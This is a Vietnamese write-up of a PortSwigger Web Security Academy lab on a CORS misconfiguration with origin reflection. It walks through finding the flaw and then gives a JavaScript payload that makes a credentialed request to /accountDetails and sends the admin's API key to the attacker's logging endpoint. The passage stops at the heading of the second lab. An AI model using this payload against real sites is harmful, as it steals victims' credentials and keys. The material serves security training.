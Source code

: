 # CORS - CLICKJACKING - NGUYỄN VĂN THỌ

<hr>

## Cross-origin resource sharing

### Bài 1: CORS vulnerability with basic origin reflection

>![](https://i.imgur.com/C4MAZqS.png)

Website này chứa lỗ hổng cấu hình CORS khiến nó tin tưởng mọi origins. Để khai thác, sử dụng Javascript để lấy API key của admin.

Kiểm tra các truy vấn, ta thấy truy vấn đến đường dẫn `/accountDetails` sẽ trả về apikey trong một object JSON.

>![](https://i.imgur.com/65pa3Ia.png)


Cũng trong request này, chú ý phần response ta thấy giá trị của `Access-Control-Allow-Credentials` bằng `true` tức là web có sử dụng CORS, cho phép cookie được include trong các request cross-site.


Thử thêm trường `Origin` với giá trị bất kì vào trong request đó, ta thấy giá trị của nó phản hồi trong `Access-Control-Allow-Origin` header, tức là nó cho phép các request từ bất kì các nguồn nào có mặt trong `Origin` header.

Sử dụng payload sau để Fetch nội dung của đường dẫn `/accountDetails` và gửi vào server của ta .

```javascript!
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a0b0080043a43ecc1ecf86800e00076.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};

</script>
```

Thu được kết quả trong phản hồi.

>![](https://i.imgur.com/bw8ktC1.png)

Submit API vừa thu được.

>![](https://i.imgur.com/23xxoF3.png)

<hr>


### Bài 2: CORS vulnerability with trusted null origin
